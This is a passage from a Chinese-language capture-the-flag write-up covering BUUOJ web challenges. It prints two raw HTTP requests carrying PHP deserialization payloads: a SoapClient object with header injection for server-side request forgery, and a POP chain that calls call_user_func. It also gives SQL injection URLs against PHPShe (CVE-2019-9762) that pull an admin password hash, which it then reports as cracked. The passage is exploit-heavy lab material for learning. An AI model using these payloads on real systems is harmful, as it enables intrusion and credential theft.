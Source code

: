 数据包：
POST /index.ph HTTP/1.1
Host: ba7f99ed-9458-4e45-953f-a28cd1dd7a5c.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Referer: http://ba7f99ed-9458-4e45-953f-a28cd1dd7a5c.node3.buuoj.cn/index.php
Cookie: PHPSESSID=troy3e;
Content-Type: multipart/form-data; boundary=--------1995995913
Content-Length: 440
Connection: close
Accept-Encoding: gzip,deflate

----------1995995913
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

|O:10:"SoapClient":4:{s:3:"uri";s:4:"aaab";s:8:"location";s:30:"http://127.0.0.1/interface.php";s:11:"_user_agent";s:60:"wupco
X-Forwarded-For: 127.0.0.1
Cookie: user=xZmdm9NxaQ==";s:13:"_soap_version";i:1;}
----------1995995913
Content-Disposition: form-data; name="file"; filename="1.txt"
Content-Type: text/plain


----------1995995913--

数据包2：
POST /se.php HTTP/1.1
Host: ba7f99ed-9458-4e45-953f-a28cd1dd7a5c.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=troy3e;
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 276

    aa=O:2:"bb":2:{s:4:"mod1";O:2:"aa":2:{s:4:"mod1";N;s:4:"mod2";a:1:{s:5:"test2";O:2:"cc":3:{s:4:"mod1";O:2:"ee":2:{s:4:"str1";O:2:"dd":3:{s:4:"name";N;s:4:"flag";s:8:"Get_flag";s:1:"b";s:14:"call_user_func";}s:4:"str2";s:7:"getflag";}s:4:"mod2";N;s:4:"mod3";N;}}}s:4:"mod2";N;}

pop链比较简单就不写了，忘了的话看参考链接。
数据包最好能自己python写了然后bp抓，这样记忆会更深。

## [RoarCTF 2019]PHPShe
关键词：CVE-2019-9762：phar反序列化
没办法注册，直接刷掉了一堆网上的cve。
但这个还能用：/include/plugin/payment/alipay/pay.php?id=pay`%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12%23_
用反引号是因为源码里插入就是反引号，这里的下划线大概是和本身传入的pay_2891314719这种格式有关，必须得加上。然后会发现burp回显3，不是很明显需要仔细点看。
把3换成database()得到phpshe2，然而接下来却无法直接注出表名，需要用到无列名注入：https://zhuanlan.zhihu.com/p/98206699
/include/plugin/payment/alipay/pay.php?id=pay`%20where%201=1%20union%20select%201,2,((select`3`from(select%201,2,3,4,5,6%20union%20select%20*%20from%20admin)a%20limit%201,1)),4,5,6,7,8,9,10,11,12%23_
得到2476bf5c8d3653e843b6ed42c0672b91解密altman777，成功登入后台。
根据WP 说是在源码中的类文件进行了修改（可以用diffinity对比出来，几万行代码是不可能手动找的
    public function __destruct()
